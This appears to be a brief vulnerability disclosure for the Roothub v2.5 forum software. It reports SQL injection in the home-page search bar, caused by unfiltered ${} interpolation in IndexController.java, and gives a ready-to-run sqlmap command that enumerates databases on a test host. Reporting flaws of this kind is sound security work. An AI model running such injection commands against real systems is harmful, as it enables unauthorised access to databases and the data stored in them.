




**First, download the source code and set up the environment**

source code:

[miansen/Roothub at vhttps://github.com/miansen/Roothub/tree/v2.52.5](https://github.com/miansen/Roothub/tree/v2.5)

**There is SQL injection in the search bar on the home page**

**Use sqlmap for injection**

sqlmap.py -u "http://192.168.125.15:8080/search?s=1" --dbs --batch

**In the source code, there is no filtering here, and ${} is used**

src/main/java/cn/roothub/web/front/IndexController.java

